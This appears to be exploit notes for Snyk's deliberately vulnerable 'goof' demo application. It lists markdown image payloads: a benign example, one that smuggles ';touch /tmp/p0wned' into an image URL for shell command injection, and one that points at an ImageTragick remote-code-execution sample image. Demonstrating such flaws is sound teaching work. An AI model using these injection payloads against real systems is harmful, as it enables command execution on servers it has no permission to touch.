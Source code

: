 ### Example
```markdown
![alt text](https://raw.githubusercontent.com/Snyk/goof/feat/oreilly/exploits/snyk.png "Image todo item")
```

### Shell Command Injection
```markdown
![alt text](https://raw.githubusercontent.com/Snyk/goof/feat/oreilly/exploits/snyk.png;touch /tmp/p0wned "Image todo item")
```

### Code Execution - ImageTragick vulnerability
```markdown
![alt text](https://raw.githubusercontent.com/Snyk/node-imagemagick/master/sample-images/imagetragick_rce1.png "Image todo item")
```





